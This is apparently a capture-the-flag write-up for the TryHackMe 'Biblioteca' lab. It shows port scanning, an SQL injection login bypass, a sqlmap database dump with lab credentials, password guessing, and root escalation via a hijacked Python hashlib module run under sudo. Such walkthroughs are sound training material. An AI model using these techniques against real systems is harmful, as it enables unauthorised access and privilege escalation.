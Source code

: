```yaml
---
title: TryHackMe - Biblioteca
author: 0
date: 2023-03-31 16:00:00 +0800
categories: [thm, machine]
tags: [sql injection, credential reuse, sudo -l, python library hijacking]
render_with_liquid: false
---
```

# Biblioteca - Medium
> Shhh. Be very very quiet, no shouting inside the biblioteca.
> Hit 'em with the classics.

### Enumeration
```bash
$ nmap -sC -sV  -A  -oN nmap_result 10.10.66.77
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 000bf9bf1d49a6c3fa9c5e08d16d8202 (RSA)
|   256 a10c8e5df07fa532b2eb2f7abfedbf3d (ECDSA)
|_  256 9eefc90afce99eede32db130b65fd40b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap result shows the webserver running on port 8000. When we connect to this port, we can see a login screen. Thinking about the introduction "Hit 'em with the classics.", hints that this is could be an authentication bypass through SQL injection.

### Foothold
 
By using `username=username&password=' or '1'='1` we can bypass the authentication form.

When logged, you only get an index screen that greets a user called "smokey".
We can dump the database by using sqlmap
```bash
$ sqlmap -r request  --dump
Database: website
Table: users
[2 entries]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
| 2  | test@hotmail.com  | test           | test     |
+----+-------------------+----------------+----------+
```

We can use these credential to ssh into the server. This account is very restricted but upon viewing the `/home/` dir we notice there is another user called "hazel". After some trial and error we managed to get access into the "hazel" account by bruteforcing as the account has the password "hazel".

### Privelege Escalation

Both `/home/hazel/user.txt` and `/root/root.txt` flags require root access.
By running `sudo -l`, we can see that hazel can run `sudo /usr/bin/python3 /home/hazel/hasher.py` without needing the root password.
```bash
hazel@biblioteca:~$ sudo -l
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

We can see the `hasher.py` script imports the `hashlib` library. We can perform privilege escalation via "Python Library Hijacking"
```bash
hazel@biblioteca:~$ cat hasher.py 
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We can run `python3 -c 'import sys; print("\n".join(sys.path))'` to see the order of paths that searches in for its libraries. 
```bash
hazel@biblioteca:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

But this is not important to us as we can just force the `PYTHONPATH` to be where we save our modified version of the `hashlib.py` library. We move to the `/tmp` dir as we don't have write permissions in our home directory. We create our version of the `hashlib.py` library that will be executed as sudo and calls `/bin/bash`. After running the script with `PYTHONPATH=/tmp` we managed to get root.

```bash
hazel@biblioteca:~$ cd /tmp
hazel@biblioteca:/tmp$ vi hashlib.py
hazel@biblioteca:/tmp$ hashlib.py 
import os

os.system('/bin/bash')
hazel@biblioteca:/tmp$ sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
root@biblioteca:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@biblioteca:/tmp# whoami
root
root@biblioteca:/tmp# cat /root/root.txt
THM{**REDACTED**}
root@biblioteca:/tmp# cat /home/hazel/user.txt
THM{**REDACTED**}
root@biblioteca:/tmp# 
```